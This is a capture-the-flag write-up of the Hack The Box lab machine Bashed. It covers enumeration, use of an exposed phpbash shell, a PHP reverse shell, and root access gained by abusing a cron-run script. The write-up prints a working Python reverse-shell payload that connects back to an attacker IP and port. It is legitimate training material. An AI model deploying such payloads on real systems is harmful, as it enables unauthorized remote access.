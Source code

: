 # Bashed

This is my write-up for the machine Bashed on Hack The Box located at: [https://app.hackthebox.com/machines/Bashed](https://app.hackthebox.com/machines/Bashed).

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

basic nmap scan: nmap `10.10.10.68`

![](<../../.gitbook/assets/image (349) (1) (1).png>)

We can see that port 80 (http) is open. I did a deeper nmap scan as well:

![](<../../.gitbook/assets/image (333) (1) (1).png>)

The port open is still the same. Going to the http site, we see the following:

![](<../../.gitbook/assets/image (354) (1) (1).png>)

I got a hint from this that **phpbash** is being used on the server and that I will have to exploit it. I ran **gobuster** to see what directories were available:

![](<../../.gitbook/assets/image (356) (1) (1).png>)

The **uploads** directory was empty, and I believe we will have to upload a shell there. The **php** directory had the following:

![](<../../.gitbook/assets/image (329) (1).png>)

The file was empty when downloaded. Looking in the **dev** folder, I was able to find the shell:

![](<../../.gitbook/assets/image (328) (1).png>)

I was then able to find the user.txt flag:

![](<../../.gitbook/assets/image (357) (1) (1) (1).png>)

Running `sudo -l`, I was able to see the following:

![](<../../.gitbook/assets/image (337) (1) (1).png>)

I then realized I would have to upload a reverse shell to the system. There were two ways in my mind: **netcat** and **pentestmonkey php-reverse-shell**. I tried the **pentestmonkey** option first. I downloaded it from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and then edited the IP address to be mine and then was able to upload it using `python3 -m http.server`.&#x20;

![](<../../.gitbook/assets/image (346) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (358) (1) (1) (1).png>)

I then accessed the file on the website and was able to get a reverse shell using **netcat**:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (347) (1) (1) (1) (1) (1).png>)

After a while of searching for a way to get out of a limited shell, I found [this site](https://guide.offsecnewbie.com/shells), where I saw the following:

![](<../../.gitbook/assets/image (343) (1) (1).png>)

Running that command got me out of the limited shell:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1).png>)

The `sudo -l` command from before shows us that the user we currently are has access to run commands as **scriptmanager**. A quick Google search showed me that to run a command as another user is to run `sudo -u scriptmanager`. I wanted to get a reverse shell as the **scriptmanager** user:

![](<../../.gitbook/assets/image (360) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (345) (1) (1) (1).png>)

I edited the payload from [this website](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1).png>)

I get the same error as before:

![](<../../.gitbook/assets/image (355) (1).png>)

When I ran linpeas (not shown in write-up, but uploaded the same way as the reverse shell), I noticed that there was a folder called **scripts**:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1).png>)

The code writes text to a file. At this point, I was actually lost. I found [this write-up](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/) that clarifies that I should have been focused on the cron jobs and noticed that the file is ran by root in the cron job. I changed the original test.txt file by overwriting it by doing the following:

![](<../../.gitbook/assets/image (351) (1) (1) (1).png>)

The content of the file was the following (from the write-up mentioned before):

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

I was then able to get root (after a minute) and the root flag:

![](<../../.gitbook/assets/image (352) (1) (1) (1).png>)

Going back to see where my mistake was, I should have noticed this in the output of linpeas.sh:

![](<../../.gitbook/assets/image (359) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (348) (1) (1) (1) (1) (1) (1).png>)
